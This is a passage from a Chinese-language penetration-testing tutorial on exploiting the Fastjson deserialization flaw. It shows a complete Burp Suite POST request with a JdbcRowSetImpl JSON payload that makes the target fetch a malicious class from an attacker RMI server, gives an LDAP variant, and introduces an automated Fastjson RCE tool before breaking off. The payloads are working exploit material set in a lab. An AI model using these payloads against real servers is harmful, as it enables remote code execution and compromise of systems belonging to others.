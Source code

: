 **4）BP 上修改 POST 包的请求**

几个注意点：

1.  一开始抓到的包是 GET 包，需要改变为 POST 包，右键变更请求方法可以快速切换为 POST 包
    
2.  `Content-Type`需要设置为`application/json`
    
3.  请求内容根据 RMI 或者 LDAP 服务做些细微变动，
    

```
POST / HTTP/1.1
Host: 192.168.112.141:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 0

{
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://192.168.112.146:9999/evilclass",
"autoCommit":true
}
}
```

LDAP 服务修该请求内容即可

```
{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://192.168.112.146:9999/evilclass",
"autoCommit":true
}
```

后记：这款工具功能还是挺强的，限于笔者我实力较菜，更多的功能参考百度或等我后续变强再来更新

### 2、fastjson_rce_tool

工具下载地址：

GitHub - wyzxxz/fastjson_rce_tool: fastjson

命令执行自动化利用工具

这款工具相较于上一个工具更加便捷、自动化，下载好后无需 maven 编译，也不用自己创建 java 恶意类代码，直接根据工具提供的 payload 进行测试攻击，上手容易，使用容易，新手推荐这个~~

简单介绍几个功能，更多功能参考工具下载地址或百度

测试环境：
